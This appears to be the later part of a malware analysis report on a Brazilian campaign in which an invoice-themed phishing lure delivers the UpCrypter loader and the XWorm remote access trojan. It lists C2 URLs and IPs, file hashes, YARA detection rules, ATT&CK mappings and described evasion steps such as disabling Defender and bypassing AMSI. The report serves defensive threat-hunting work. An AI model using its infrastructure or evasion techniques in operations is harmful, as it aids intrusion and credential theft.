

### C2 Endpoint Map (HostGator)

| Endpoint | Size | Content |
|----------|------|---------|
| `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto/03.txt` | 434 KB | `ClassLibrary3.dll` as decimal byte-array |
| `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto//01.txt` | ~5 MB | XWorm PE as decimal byte-array |
| `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto//02.txt` | 829 B | Config blob (AES key / C2 parameters) |
| `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto/PeYes` | - | (unavailable during analysis - redirected to `/01.txt`) |


### Suricata / IDS Alerts

| Rule | Classification |
|------|---------------|
| `MALWARE [ANY.RUN] Win32/UpCrypter related domain (meusitehostgator .com .br)` | A Network Trojan was detected |
| `ET DYN_DNS DNS Query to DynDNS Domain *.ddns.net` | Potentially Bad Traffic |
| `xworm` | A Network Trojan was detected |
| `upcrypter, susp-powershell` | Malicious Activity |
| `ET POLICY Framework installation utility` | Potentially Bad Traffic |

---

## Behavioral Summary (ANY.RUN - Session 2, Full Detonation)

| Category | Observable |
|----------|-----------|
| **Process tree** | Edge → wscript × 2 → powershell × N → InstallUtil |
| **Files created** | `ptjzh.js`, `bdbsk.ps1`, `hzllg.txt`, `vcrmm.ps1`, `yktsz.txt` in `C:\Users\Public\` |
| **Files deleted** | `bdbsk.ps1` via `cmd.exe ping-delay delete` |
| **Registry** | `HKCU\...\Run` → `"Update Drivers NVIDEO_*"` |
| **Defender** | `Set-MpPreference` disables real-time monitoring, IPS, MAPS |
| **Network** | 5× HTTP GET to HostGator C2; 1× TCP to `190.102.43.216:7070` |
| **Config extracted** | XWorm V5.6 full config from `InstallUtil.exe` memory |
| **Mutex** | `HiZwA4QbSRd4KwXM` |

---

## Indicators of Compromise

### File Hashes

| File | SHA-256 |
|------|---------|
| `ClassLibrary3.dll` (loader) | `e646c794831b993fb2c347576943fec13b0cd53730c64cfe67a423d430f76498` |
| `ptjzh.js` | `8C256B22922236EE34C441ABA75374CFE4C34874D107B970A12D27A7C6928117` |
| `bdbsk.ps1` | `8786F1EB0984C4704CD4EAE0CFAF376717975872301FDAE5FF39FA8395AFC8EC` |
| `hzllg.txt` (DLL byte-array) | `E6653AE3E533F58800CB41D307906785AA68E8BD4B08CE26C3111E6F407815C5` |
| `malicious.exe` (XWorm PE) | `8be210d85879782906ed4c0c9b7a5a306d8fd04323bada8d73f59b84d4c98643` |

### Network

| Type | Value |
|------|-------|
| URL (lure) | `https://pdf402.b-cdn.net/ErrorLeitor-402.html` |
| IP (lure CDN) | `185.111.111.156` |
| Domain (loader C2) | `andrefelipedonascime1775471117328.2082219.meusitehostgator.com.br` |
| URL (loader DLL) | `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto/03.txt` |
| URL (XWorm payload) | `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto//01.txt` |
| URL (config blob) | `.../FVTwhWzaQj_06_04_Meus_ArquivosDeTexto//02.txt` |
| URL (dead-drop) | `https://pastee.dev/d/SUFc5yHU/0` |
| Domain (XWorm C2) | `ouro.ddns.net` |
| IP (XWorm C2) | `190.102.43.216:7070` |

### Host Artifacts

| Type | Value |
|------|-------|
| Mutex | `HiZwA4QbSRd4KwXM` |
| Registry key | `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` → `"Update Drivers NVIDEO_*"` |
| File path (staging) | `C:\Users\Public\{ptjzh.js, bdbsk.ps1, hzllg.txt, vcrmm.ps1, yktsz.txt}` |
| File path (persistence PS1) | `%AppData%\LocalLow\LocalLow Windows\Program Rules\Program Rules NVIDEO\...\vcrmm.ps1` |
| XWorm AES key | `<123456789>` |
| XWorm splitter | `<Xwormmm>` |

### YARA Hint (Loader DLL)

```bash
rule UpCrypter_ClassLibrary3_Loader {
    meta:
        description = "UpCrypter .NET Reactor protected loader - ClassLibrary3"
        author = "0x_OLYMPUS"
        hash = "e646c794831b993fb2c347576943fec13b0cd53730c64cfe67a423d430f76498"
    strings:
        $mutex   = "HiZwA4QbSRd4KwXM" wide
        $reactor = "unregistered version of Eziriz" wide
        $path    = "Program Rules NVIDEO" wide
        $nvideo  = "Update Drivers NVIDEO" wide
        $reg_key = "firstrundone" wide
    condition:
        uint16(0) == 0x5A4D and 3 of ($mutex, $reactor, $path, $nvideo, $reg_key)
}
```

```bash
rule XWorm_V56_Default_Config {
    meta:
        description = "XWorm V5.6 with default cracked-builder AES key"
        author = "0x_OLYMPUS"
        hash = "8be210d85879782906ed4c0c9b7a5a306d8fd04323bada8d73f59b84d4c98643"
    strings:
        $mutex    = "HiZwA4QbSRd4KwXM" wide
        $splitter = "<Xwormmm>" wide
        $aes_key  = "<123456789>" wide
        $ddns     = "ouro.ddns.net" wide
    condition:
        uint16(0) == 0x5A4D and 2 of them
}
```

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Implementation |
|--------|-----------|-----|---------------|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | NF-e lure HTML hosted on BunnyNet CDN |
| Execution | User Execution: Malicious File | T1204.002 | Victim executes `.js` dropper |
| Execution | Command and Scripting: JavaScript | T1059.007 | `wscript.exe` runs `ptjzh.js` |
| Execution | Command and Scripting: PowerShell | T1059.001 | Multi-stage PS stager with AMSI evasion |
| Execution | System Binary Proxy: InstallUtil | T1218.004 | XWorm injected into `InstallUtil.exe` |
| Persistence | Boot/Logon Autostart: Registry Run Keys | T1547.001 | `HKCU\...\Run` → `"Update Drivers NVIDEO_*"` |
| Defense Evasion | Obfuscated Files: Command Obfuscation | T1027.010 | Split base64 string concatenation (AMSI bypass) |
| Defense Evasion | Reflective Code Loading | T1620 | `Assembly.Load()` - no PE written to disk |
| Defense Evasion | Masquerading | T1036 | `"Update Drivers NVIDEO_*"` registry key name |
| Defense Evasion | Impair Defenses: Disable/Modify Tools | T1562.001 | `Set-MpPreference` Defender bypass |
| Defense Evasion | Deobfuscate/Decode Files | T1140 | Base64 + decimal byte-array decoding chain |
| Discovery | Process Discovery | T1057 | Blocklist check for analysis tools |
| Discovery | System Information Discovery | T1082 | BIOS/board enumeration for VM detection |
| C2 | Application Layer Protocol: Web Protocols | T1071.001 | HTTPS to HostGator C2 |
| C2 | Dynamic Resolution: Fast Flux / DDNS | T1568.002 | `ouro.ddns.net` DynDNS for XWorm C2 |
| Exfiltration | (via XWorm) | - | Browser stealer, keylogger, clipboard monitor |

---

## Threat Actor Assessment

Based on the full analysis, the operator profile is:

- **Sophistication: Low–Medium.** The loader (UpCrypter) is technically capable - .NET Reactor protection, AMSI-evasive PS stager, in-memory execution throughout. However, XWorm uses default builder configuration (`<123456789>` AES key, unmodified splitter), and the C2 domain is registered under DynDNS with a Brazilian-registrant subdomain that includes a personal name.
- **Geographic targeting: Brazil.** The lure (`Nota-Fiscal`), the C2 infrastructure (HostGator BR, Brazilian ASN for XWorm C2), and the personal name embedded in the C2 domain all point to a Brazilian-operated campaign targeting the Brazilian market.
- **Infrastructure hygiene: Poor.** The HostGator C2 domain encodes what appears to be a personal name (`andrefelipedonascime`) and a ID number (`1775471117328`) - significant OPSEC failure enabling attribution correlation.
- **Likely motivation: Financial** (RAT capabilities include browser credential stealing, clipboard hijacking for crypto wallet replacement, keylogging).

---

## Conclusion

This campaign demonstrates a recurring pattern in Brazilian commodity malware: a technically capable loader (UpCrypter) delivering a well-known commercial RAT (XWorm) through social engineering tuned to the local context (NF-e lure). The fileless delivery chain - from HTTPS-fetched byte-arrays to in-memory `Assembly.Load()` to LOLBin injection - is designed to evade disk-based detection and basic behavioral monitoring.

The weakest operational security link is the C2 infrastructure: the HostGator domain encodes personally identifiable information, and the XWorm configuration uses unmodified defaults from a widely-distributed cracked builder - both strong pivoting points for attribution and hunting.

Detection opportunities exist at multiple stages:
- PowerShell AMSI bypass pattern (split string concatenation)
- `Assembly.Load()` from bytes sourced via `WebClient`
- `InstallUtil.exe` spawned by PowerShell without installer arguments
- TCP connections to `*.ddns.net` on non-standard ports from .NET runtime processes
- Mutex `HiZwA4QbSRd4KwXM` at process creation

---

*Analysis performed by 0x_OLYMPUS - 0xD3lta Research*  
*Tools: DetectItEasy · Malcat · dnSpy · ANY.RUN*